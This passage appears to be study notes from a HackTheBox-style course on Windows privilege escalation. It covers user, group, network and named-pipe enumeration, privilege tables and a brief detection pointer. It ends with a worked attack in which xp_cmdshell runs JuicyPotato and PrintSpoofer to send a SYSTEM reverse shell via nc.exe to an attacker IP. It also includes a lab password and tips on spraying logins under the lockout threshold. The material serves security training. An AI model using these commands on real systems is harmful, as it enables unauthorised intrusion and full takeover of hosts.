SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

##### Current User Group Information

Has your user inherited any rights through their group membership? Are they privileged in the AD domain environment, which could be leveraged to gain access to more systems?

```
C:\htb> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON  Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

##### Get All Users

Knowing what other users are on the system is important as well. If you gained RDP access to a host using credentials you captured for a user "bob", and see a "bob_adm" user in the local administrators group, it is worth checking for creds for credential re-use. Can you access the user profile directory for any important users? You may find valuable files such as scripts with passwords or SSH keys in a user's Desktop, Documents, or Downloads folder.

```
C:\htb> net user

User accounts for \\WINLPE-SRV01

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
helpdesk                 htb-student              jordan
sarah                    secsvc
The command completed successfully.
```

##### Get All Groups

Knowing what non-standard groups are present on the host can help you determine what the host is used for, how heavily accessed it is, or may even lead to discovering a misconfig such as all Domain Users in the RDP or local administrators groups.

```
C:\htb> net localgroup

Aliases for \\WINLPE-SRV01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Storage Replica Administrators
*System Managed Accounts Group
*Users
The command completed successfully.
```

##### Details About a Group

It is worth checking out the details for any non-standard groups. Though unlikely, you may find a password or other interesting information stored in the group's description. During your enumeration, you may discover credentials of another non-admin user who is a member of a local group that can be leveraged to escalate privileges.

```
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
helpdesk
sarah
secsvc
The command completed successfully. 
```

... or:

```powershell
PS C:\Users\dave> Get-LocalGroupMember adminteam
Get-LocalGroupMember adminteam

ObjectClass Name                PrincipalSource
----------- ----                ---------------
User        CLIENTWK220\daveadmin Local 

PS C:\Users\dave> Get-LocalGroupMember Administrators
Get-LocalGroupMember Administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local          
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\backupadmin     Local  
User        CLIENTWK220\offsec        Local
```

##### Get Password Policy & Other Account Information

```
PS C:\Users\jeff> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```

`Lockout threshold` indicates a limit of five login attempts before lockout. This means you can safely attempt four logins before triggering a lockout. Although this may seem like many, you should also consider the `Lockout obversation window`, which indicates that after thirty minutes after the last failed login, you can make additional attempts.

With these settings, you could attempt 192 logins in a 24-hour period against every domain user withouth triggering a lockout, assuming the actual users don't fail a login attempt.

### Communication with Processes

One of the best places to loko for privesc is the processes are running on the system. Even if a process is not running as an administrator, it may lead to additional privileges. The most common example is discovering a web server like IIS or XAMPP running on the box, placing an aspx/php shell on the box, and gaining a shell as the user running the web server. Generally, this is not an administrator but will often have the `SeImpersonate` token, allowing for `Rogue/Juicy/Loneyl Potato` to provide SYSTEM permissions.

#### Access Tokens

In Windows, access tokens are used to describe the security context of a process or thread. The token includes information about the user account's identity and privileges related to a specific process or thread. When a user authenticates to a system, their password is verified against a security database, and if properly authenticated, they will be assigned an access token. Every time a user interacts with a process, a copy of this token will be presented to determine their privilege level.

#### Enumerating Network Services

The most common way people interact with processes is through a network socket. The `netstat` command will display active TCP and UDP connections which will give you a better idea of what services are listening on which port(s) both locally and accessible to the outside. You may find a vulnerable service only accessible to the localhost that you can exploit to escalate privileges.

```
C:\htb> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       3812
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       836
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       936
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       5044
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       528
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       996
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1260
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2008
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       600
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       1888
  TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       616
  TCP    10.129.43.8:139        0.0.0.0:0              LISTENING       4
  TCP    10.129.43.8:3389       10.10.14.3:63191       ESTABLISHED     936
  TCP    10.129.43.8:49671      40.67.251.132:443      ESTABLISHED     1260
  TCP    10.129.43.8:49773      52.37.190.150:443      ESTABLISHED     2608
  TCP    10.129.43.8:51580      40.67.251.132:443      ESTABLISHED     3808
  TCP    10.129.43.8:54267      40.67.254.36:443       ESTABLISHED     3808
  TCP    10.129.43.8:54268      40.67.254.36:443       ESTABLISHED     1260
  TCP    10.129.43.8:54269      64.233.184.189:443     ESTABLISHED     2608
  TCP    10.129.43.8:54273      216.58.210.195:443     ESTABLISHED     2608
  TCP    127.0.0.1:14147        0.0.0.0:0              LISTENING       3812

<SNIP>

  TCP    192.168.20.56:139      0.0.0.0:0              LISTENING       4
  TCP    [::]:21                [::]:0                 LISTENING       3812
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       836
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3389              [::]:0                 LISTENING       936
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:8080              [::]:0                 LISTENING       5044
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       528
  TCP    [::]:49665             [::]:0                 LISTENING       996
  TCP    [::]:49666             [::]:0                 LISTENING       1260
  TCP    [::]:49668             [::]:0                 LISTENING       2008
  TCP    [::]:49669             [::]:0                 LISTENING       600
  TCP    [::]:49670             [::]:0                 LISTENING       1888
  TCP    [::]:49674             [::]:0                 LISTENING       616
  TCP    [::1]:14147            [::]:0                 LISTENING       3812
  UDP    0.0.0.0:123            *:*                                    1104
  UDP    0.0.0.0:500            *:*                                    1260
  UDP    0.0.0.0:3389           *:*                                    936

<SNIP>
```

The main thing to look for with Active Network Connections are entries listening on loopback addresses (`127.0.0.1` and `::1`) that are not listening on the IP address or broadcast. The reason for this is network sockets on localhost are often insecure due to the thought that "they aren't accessible to the network". The one that sticks out immediately will be port 14147, which is used for FileZilla's administrative interface. By connecting to this port, it may be possible to extract FTP passwords in addition to creating an FTP share at `c:\` as the FileZilla Server user.

##### More Examples 

One of the best examples of this type of privilege escalation is the Splunk Universal Forwarder, installed on endpoints to send logs into Splunk. The default configuration of Splunk did not have any authentication on the software and allowed anyone to deploy applications, which could lead to code execution. Again, the default configuration of Splunk was to run it as SYSTEM$ and not a low privilege user.

Another overlooked but common local privilege escalation vector is the Erlang Port (25672). Erlang is a programming language designed around distributed computing and will have a network port that allows other Erlang nodes to join the cluster. The secret to join this cluster is called a cookie. Many applications that utilize Erlang will either use a weak cookie or place the cookie in a configuration file that is not well protected. Some example Erlang applications are SolarWinds, RabbitMQ, and CouchDB.

#### Named Pipes

The other way processes communicate with each other is through Named Pipes. Pipes are essentially files stored in memory that get cleared out after bein read. Cobalt Strike uses named pipes for every command. Essentially the workflow looks like this:

- Beacon starts a named pipe of \\.\pipe\msagent_12
- Beacon starts a new process and injects command into that process directing output to \\.\pipe\msagent_12
- Server displays what was written into \\. \pipe\msagent_12

Cobalt Strike did this because if the command being ran got flagged by AV or crashed, it would not affect the beacon. Often, Cobalt Strike users will change their named pipes to masquerade as another program. One of the most common examples is mojo instead of msagent.

##### More on Named Pipes

Pipes are used for communication between two applications or processes using shared memory. There are two types of pipes, named pipes and anonymous pipes. An example of a named pipe is `\\.\PipeName\\ExampleNamedPipeServer`. Windows systems use a client-server implementation for pipe communication. In this type of implementation, the process that creates a named pipe is the server, and the process communicating with the named pipe is the client. Named pipes can communicate using half-duplex, or a one-way channel with the client only being able to write data to the server, or duplex, which is a two-way communication channel that allows the client to write data over the pipe, and the server to respond back with data over that pipe. Every active connection to a named pipe server results in the creation of a new named pipe. These all share the same pipe name but communicate using a different data buffer.

You can use the tool PipeList from the Sysinternals Suite to enumerate instances of named pipes.

```
C:\htb> pipelist.exe /accepteula

PipeList v1.02 - Lists open named pipes
Copyright (C) 2005-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Pipe Name                                    Instances       Max Instances
---------                                    ---------       -------------
InitShutdown                                      3               -1
lsass                                             4               -1
ntsvcs                                            3               -1
scerpc                                            3               -1
Winsock2\CatalogChangeListener-340-0              1                1
Winsock2\CatalogChangeListener-414-0              1                1
epmapper                                          3               -1
Winsock2\CatalogChangeListener-3ec-0              1                1
Winsock2\CatalogChangeListener-44c-0              1                1
LSM_API_service                                   3               -1
atsvc                                             3               -1
Winsock2\CatalogChangeListener-5e0-0              1                1
eventlog                                          3               -1
Winsock2\CatalogChangeListener-6a8-0              1                1
spoolss                                           3               -1
Winsock2\CatalogChangeListener-ec0-0              1                1
wkssvc                                            4               -1
trkwks                                            3               -1
vmware-usbarbpipe                                 5               -1
srvsvc                                            4               -1
ROUTER                                            3               -1
vmware-authdpipe                                  1                1

<SNIP>
```

Additionally, you can use PowerShell to list named pipes using `gci` (`Get-Childitem`).

```powershell
PS C:\htb>  gci \\.\pipe\


    Directory: \\.\pipe


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
------       12/31/1600   4:00 PM              3 InitShutdown
------       12/31/1600   4:00 PM              4 lsass
------       12/31/1600   4:00 PM              3 ntsvcs
------       12/31/1600   4:00 PM              3 scerpc


    Directory: \\.\pipe\Winsock2


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
------       12/31/1600   4:00 PM              1 Winsock2\CatalogChangeListener-34c-0


    Directory: \\.\pipe


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
------       12/31/1600   4:00 PM              3 epmapper

<SNIP>
```

After obtaining a listing of named pipes, you can use Accesschk to enumerate the permissions assigned to a specific named pipe by reviewing the Discretionary Access List (_DACL_), which shows you who has the permissions to modify, write, read, or execute a resource. Take a look at the LSASS process. You can also review the DACLs of all named pipes using the command `.\accesschk.exe /accepteula \pipe\`.

```
C:\htb> accesschk.exe /accepteula \\.\Pipe\lsass -v

Accesschk v6.12 - Reports effective permissions for securable objects
Copyright (C) 2006-2017 Mark Russinovich
Sysinternals - www.sysinternals.com

\\.\Pipe\lsass
  Untrusted Mandatory Level [No-Write-Up]
  RW Everyone
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        SYNCHRONIZE
        READ_CONTROL
  RW NT AUTHORITY\ANONYMOUS LOGON
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        SYNCHRONIZE
        READ_CONTROL
  RW APPLICATION PACKAGE AUTHORITY\Your Windows credentials
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        SYNCHRONIZE
        READ_CONTROL
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
```

From the output above, you can see that only administrators have full access to the LSASS process, as expected.

#### Named Pipes Attack

Using `accesschk` you can search for all named pipes that allow write access with a command such as `accesschk.exe -w \pipe\* -v` and notice that the WindscribeService named pipe allows READ and WRITE access to the Everyone group, meaning all authenticated users.

Confirming with `accesschk`you see that the Everyone group does indeed have `FILE_ALL_ACCESS` over the pipe.

```
C:\htb> accesschk.exe -accepteula -w \pipe\WindscribeService -v

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

\\.\Pipe\WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
```

From here, you could leverage these lax permissions to escalate privileges on the host to SYSTEM.

## User Privileges

### Overview

Privileges in Windows are rights that an account can be granted to perform a variety of operations on the local system such as managing services, loading drivers, shutting down the system, debugging an application, and more. Privileges are different from access rights, which a system uses to grant or deny access to securable objects. User and group privileges are stored in a database and granted via an access token when a user logs on to a system. An account can have local privileges on a specific computer and different privileges on different systems if the account belogns to an AD domain. Each time a user attempts to perform a privileged action, the system reviews the user's access token to see if the account has the required privileges, and if so, checks to see if they are enabled. Most privileges are disabled by default. Some can be enabled by opening an administrative cmd.exe or PowerShell console, while others can be enabled manually.

The goal of an assessment if often to gain administrative access to a system or multiple systems. Suppose you can log in to a system as a user with a specific set of privileges. In that case, you may be able to leverage this built-in functionality to escalate privileges directly or use the target account's assigned privileges to further your access in pursuit of your ultimate goal.

#### Windows Authorization Process

Security principals are anything that can be authenticated by the Windows OS, including user and computer accounts, processes that run in the security context or another user/computer account, or the security groups that these accounts belong to. Security principals are the primary way of controlling access to resources on Windows hosts. Every single security principal is identified by a unique Security Identifier (_SID_). When a security principal is created, it is assigned a SID which remains assigned to that principal for its lifetime.

The below diagram walks through the Windows authorization and access control process at a high level, showing, for example, the process started when a user attempts to access a securable object such as a folder on a file share. During the process, the user's access token is compared against Access Control Entries (_ACE_) within the object's security descriptor. Once this comparison is complete, a decision is made to either grant or deny access. This entire process happens almost instantaneously whenever a user tries to access a resource on a Windows host. As part of your enumeration and privilege escalation activities, you attempt to use and abuse access rights and leverage or insert yourself into this authorization process to further your access towards your goal.



#### Rights and Privileges in Windows

Windows contains many groups that grant their members powerful rights and privileges. Many of these can be abused to escalate privileges on both a standalone Windows host and within an AD domain environment. Ultimately, these may be used to gain Domain Admin, local administrator, or SYSTEM privileges on a Windows workstation, server, or DC. Some of these groups are listed below:

| Group | Description |
| ----- | ----------- |
| Default Administrator | Domain Admins and Enterprise Admins are "super" groups. |
| Server Operators | Members can modify services, access SMB shares, and backup files. |
| Backup Operators | Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs. |
| Print Operators | Members can log on to DCs locally and "trick" Windows into loading a malicious driver. |
| Hyper-V-Administrators | If there are virtual DCs, any virtualization admins, such as member of Hyper-V-Administrators, should be considered Domain Admins. |
| Account Operators | Members can modify non-protected accounts and groups in the Domain. |
| Remote Desktop Users | Members are not given any useful permissions by default but are often granted additional rights such as `Allow Login Through Remote Desktop Service` and can move laterally using the RDP protocol. |
| Remote Management Users | Members can log on to DCs with PSRemoting. |
| Group Policy Creater Owners | Members can create new GPOs but would need to be delegated additional permissions to link GPOs by adding a compromised account to the default object ACL. |
| Schema Admins | Members can modify the AD schema structure and backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL. |
| DNS Admins | Members can load a DLL on a DC, but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to create a WPAD record. |

#### User Rights Assignment

| Setting Constant | Setting Name | Standard Assignment | Description |
| ---------------- | ------------ | ------------------- | ----------- |
| SeNetworkLogonRight | Access this computer from the network  | Administrators, Authenticated Users | Determines which users can connect to the device from the network. This is required by network protocols such as SMB, NetBIOS, CIFS, and COM+. |
| SeRemoteInteractiveLogonRight | Allow log on through Remote Desktop Services | Administrators, Remote Desktop Users | This policy setting determines which users or groups can access the login screen of a remote device through a Remote Desktop Services connection. A user can establish a Remote Desktop Services connection to a particular server but not be able to log on to the console of that same server. |
| SeBackupPrivilege | Back up files and directories | Administrators | This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purpose of backing up to the system. |
| SeSecurityPrivilege | Manage auditing and security log | Administrators | This policy setting determines which users can specify object access audit options for individual resources such as files. AD objects, and registry keys. These objects specify their system access control lists (_SACL_). A user assigned this user right can also view and clear the Security log in Event Viewer. | 
| SeTakeOwnershipPrivilege | Take ownership of files or other objects | Administrators | This policy setting determines which users can take ownership of any securable object in the device, including AD objects, NTFS files and folders, printers, registry keys, services, processes, and threads. |
| SeDebugPrivilege | Debug programs | Administrators | This policy setting determines which users can attach to or open any process, even a process they do not own. Devs who are debugging their applications do not need this user right. Devs who are debugging new system components need this user right. This user right provides access to sensitive and critical OS components. |
| SeImpersonatePrivilege | Impersonate a client after authentication | Administrators | Local Service, Network Service, Service | This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user. |
| SeLoadDriverPrivilege | Load and unload device drivers | Administrators | This policy setting determines which users can dynamically load and unload device drivers. This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device. Device drivers run as highly privileged code. |
| SeRestorePrivileges | Restore files and directories | Administrators | This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories. It determines which user can set valid security principals as the owner of an object. |
| SeTcbPrivilege | Act as part of the OS | Administrators, Local Service, Network Service, Service | This security setting determines whether a process can assume the identity of any user and, through this, obtain access to resources that the targeted user is permitted to access. This may be assigned to AV or backup tools that need the ability to access all system files for scans or backups. This privilege should be reserved for service accounts requiring this access for legitimate activities. |

Typing the command `whoami /priv` will give you a listing of all user rights assigned to your current user. Some rights are only available to administrative users and can only be listed/leveraged when running an elevated cmd or PowerShell session. These concepts of elevated rights and User Account Control are security features introduced with Windows Vista to default to restricting applications from running with full permissions unless necessary. If you compare and contrast the rights available to you as an admin in a non-elevated console vs. an elevated console, you will see that they differ drastically.

If you run an elevated command window, you can see the complete listing of rights available to you:

```powershell
PS C:\htb> whoami 

winlpe-srv01\administrator


PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled 
```

When a privilege is listed for your account in the `Disabled` state, it means that your account has the specific privilege assigned. Still, it cannot be used in an access token to perform the associated actions until it is enabled. Windows does not provide a built-in command or PowerShell cmdlet to enable privileges, so you need some scripting to help you out. One example is this PowerShell [script](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1) which can be used to enable certain privileges, or this [script]()https://www.leeholmes.com/adjusting-token-privileges-in-powershell/ which can be used to adjust token privileges.

A standard user, in contrast, has drastically fewer rights.

```powershell
PS C:\htb> whoami 

winlpe-srv01\htb-student


PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

User rights increase based on the groups they are placed in or their assigned privileges. Below is an example of the rights granted to users in the Backup Operators group. Users in this group do have other rights that UAC currently restricts. Still, you can see from this command that they have the SeShutdownPrivilege, which means that they can shut down a DC that could cause a massive service interruption should they log onto a DC locally.

```powershell
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

#### Detection

This [post](https://blog.palantir.com/windows-privilege-abuse-auditing-detection-and-defense-3078a403d74e) is worth a read for more information on Windows privileges as well as detecting and preventing abuse, specifically by logging event [4672: "Special privileges assigned to new logon"](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4672) which will generate an event if certain sensitive privileges are assigned to a new logon session. This can be fine-tuned in many ways, such as by monitoring privileges that should never be assigned or those that should only ever be assigned to specific accounts.

### SeImpersonate and SeAssignPrimaryToken

In Windows, every process has a token that has information about the account that is running it. These tokens are not considered secure resources, as they are just locations within memory that could be brute-forced by users that cannot read memory. To utilize, the SeImpersonate privilege is needed. It is only given to administrative accounts, and in most cases, can be removed during system hardening.

Legitimate programs may utilize another process's token to escalate from Administrator to Local System, which has additional privileges. Processes generally do this by making a call wo the WinLogon process to get a SYSTEM token, then executing itself with that token placing it within the SYSTEM space. Attackers often abuse this privilege in the "Potato Style" privescs - where a service account can SeImpersonate, but not obtain full SYSTEM level privileges. Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used.

You will often run into this privilege after gaining RCE via an application that runs in the context of a service account. Whenever you gain access in this way, you should immediately check for this privilege as its presence often offers a quick and easy route to elevated privileges.

#### SeImpersonate Example - JuicyPotato

Take the example below, where you have gained a foothold on a SQL server using a privileged SQL user. Client connections to IIS and SQL Server may be configured to use Windows Authentication. The server may then need to access other resources such as file shares as the connecting client. It can be done by impersonating the user whose context the client connection is established. To do so, the service account will be granted the "Impersonate a client after authentication" privilege.

In this scenario, the SQL Service account is running in the context of the default mssqlserver account. Imagine you have achieved command execution as this user using xp_cmdshell using a set of creds obtained in a logins.sql file on a file share using the Snaffler tool.

Using the creds `sql_dev:Str0ng_P@ssw0rd!`, first connect to the SQL server instance and confirm your privileges. You can do this using mssqlclient.py from the Impacket toolkit.

```bash
d41y@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162) 
[!] Press help for extra shell commands
SQL>
```

Next, you must enable the xp_cmdshell stored procedure to run OS commands. You can do this via the Impacket MSSQL shell by typing `enable_xp_cmdshell`. Typing `help` displays a few other command options.

```bash
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

With this access, you can confirm that you are indeed running in the context of a SQL Server service account.

```bash
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

Next, check what privileges the service account has been granted.

```bash
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled 
```

The command `whoami /priv` confirms that SeImpersonatePrivilege is listed. This privilege can be used to impersonate a privileged account such as NT AUTHORITY\SYSTEM. [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the SeImpersonate or SeAssignPrimaryToken privileges via DCOM/NTLM reflection abuse.

To escalate privileges using these rights, first download the JuicyPotato.exe binary and upload this and nc.exe to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where the `-l` is the COM server listening port, `-p` is the program to launch, `-a` is the argument passed to cmd.exe, and `-t` is the "createprocess" call. Below, you are telling the tool to try both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively.

```bash
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```

This completes successfully, and a shell as NT AUTHORITY\SYSTEM is received.

```bash
d41y@htb[/htb]$ sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

> [!INFO]
> Sometimes the exploit above doesn't work. In a case like this you should try to manually query for COM class IDs backed by a LocalService. To get this information you can use `reg query HKCR\CLSID /s /f LocalService`. Command output might reveal entries that are serviced by `winmgmt` which runs as NT AUTHORITY\SYSTEM.
> 
> A COM object with a `LocalService` entry is implemented by a Windows service rather than the calling process; if that service runs as SYSTEM (e.g., winmgmt), impersonation may be possible.
> 
> When using `-t *` only JuicyPotato enumerates many CLSIDs and picks one that either wasn't backed by SYSTEM, or didn't allow impersonation, or was hardened/restricted.
> 
> A full command using a specifc, priorly manually enumerated, CLSID looks like this: `JuicyPotato.exe -l 4450 -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}" -p c:\windows\system32\cmd.exe -a "/c c:\temp\nc64.exe 10.10.15.252 4450 -e cmd.exe"`.
> 
> Further read [here](https://learn.microsoft.com/en-us/windows/win32/com/com-class-objects-and-clsids).

#### PrintSpoofer and RoguePotato

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM level access.

Try this out using the PrintSpoofer tool. You can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop, or catch a revshell. Again, connect with mssqlclient.py and use the tool with the `-c` argument to execute a command. Here, using nc.exe to spawn a revshell.

```bash
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```

